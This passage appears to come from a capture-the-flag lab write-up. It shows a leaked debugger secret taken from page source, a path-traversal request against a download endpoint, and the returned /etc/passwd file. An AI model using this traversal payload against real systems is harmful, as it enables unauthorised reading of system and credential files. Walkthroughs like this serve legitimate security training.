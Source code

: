 We see in the header tag, the following javascript:

```html
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "sSaLzEyA36ncL6OhOEdD";
    </script>
```

## Foothold

So we have *some* secret (JWT signing key?).  Oh, let's try LFI with a basic path traversal by modifying our CSV download GET HTTP request:

```
GET /download?fn=../../../etc/passwd HTTP/1.1
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 06:00:28 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 1744
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```
